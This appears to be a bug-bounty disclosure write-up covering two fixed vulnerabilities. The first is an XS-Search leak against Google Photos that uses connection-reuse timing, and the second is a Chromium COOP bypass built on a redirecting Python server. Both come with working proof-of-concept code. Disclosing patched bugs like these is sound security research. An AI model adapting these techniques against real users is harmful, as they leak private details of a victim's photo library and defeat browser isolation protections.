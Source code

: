 ```yaml
---
title: XS-Search on Google Photos
---
```


Google Photos is a service by Google, a subsidiary of Alphabet used to store and view user uploaded duck photos.

# XS-Leak (Fixed, Awarded $1337)

This attack is documented at <https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/#connection-reuse>  
Usage is `await search('duck')` to leak if a query exists (If victim took a photo of a duck)

```js
async function isConnected() {
  // Detect connection reuse for lh3.googleusercontent.com
  // No timing attack needed because of timing-allow-origin: *
  performance.clearResourceTimings();
  await fetch('https://lh3.googleusercontent.com/', {mode: 'cors'});
  await new Promise((r) => setTimeout(r, 1000));
  let data = performance.getEntries().pop();
  return data.connectStart === data.startTime;
}

async function search(query) {
  let w = open();
  // Close connections using idle timeout.
  await new Promise((r) => setTimeout(r, 30000));
  // First try is free, next needs COOP or user activation bypass.
  w.location = 'https://photos.google.com/search/' + query;
  await new Promise((r) => setTimeout(r, 5000));
  return await isConnected();
}
```
I think this was fixed as part of <https://chromium-review.googlesource.com/c/chromium/src/+/4387455>

# COOP bypass (Fixed, Awarded $3000)

Abuses the Chromium auto reloader using a invalid server response, also worked with max redirect limit.

```js
from http.server import BaseHTTPRequestHandler, HTTPServer

sessions = set()

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if (self.path not in sessions):
            self.send_response(200)
            self.send_header("Cache-Control", "no-store")
            message = "<invalid>"
            self.wfile.write(bytes(message, "utf8"))
            self.end_headers()
            sessions.add(self.path)
        else:
            self.send_response(307)
            self.send_header('Cache-Control', 'no-store')
            self.send_header('Location','https://photos.google.com/search/duck')
            self.end_headers()
            sessions.remove(self.path)

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```

This was fixed in <https://issues.chromium.org/40060695>

